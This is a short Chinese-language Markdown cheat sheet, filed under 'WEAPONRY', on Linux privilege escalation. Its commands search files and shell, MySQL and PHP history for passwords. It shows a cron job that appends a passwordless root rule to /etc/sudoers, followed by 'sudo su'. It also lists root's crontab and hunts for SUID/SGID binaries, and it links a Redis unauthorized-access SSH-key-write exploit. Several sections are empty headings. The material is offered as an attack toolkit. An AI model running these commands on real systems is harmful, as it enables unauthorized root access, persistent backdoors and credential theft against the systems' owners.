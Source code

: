 ```yaml
---
title: Linux Priv Esc
date: 2020-11-14 19:11:18
category: WEAPONRY
---
```


# Linux 提权

## 信息泄漏
### 泄漏的账密
``` bash
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password" # Joom
```
### 历史记录
``` bash
cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history
```



## Kernel Vulns


## 配置不当

### sudo -l


### Crontab
``` bash
vi user.sh
echo "user ALL=(root) NOPASSWD: ALL" >> /etc/sudoers
```

`/etc/crontab` 中加入计划任务。
``` bash
vi /etc/crontab
*/1 * * * * root sh /path2script/user.sh >> /tmp/log.txt
```
最后
``` bash
sudo su
```

一些配置
``` bash
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```


### SUID 
``` bash
find / -perm -1000 -type d 2>/dev/null              # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
find / -perm -g=s -type f 2>/dev/null               # 以文件所属用户组权限运行
find / -perm -u=s -type f 2>/dev/null               # 以文件所属用户权限运行
find / -perm -g=s -o -perm -u=s -type f 2>/dev/null # 以上两者合集

# Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done   

# 从 / 开始 3 个文件夹深度的范围内查找 SGID 或 SUID ，同时不是符号链接的文件
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null   
```

## Third Part Service

### Root-Redis 未授权访问
任意角色未授权登入，[公钥写入](https://github.com/Xyntax/POC-T/blob/9d538a217cb480dbd1f94f1fa6c8154a41b5b106/script/redis-sshkey-getshell.py)。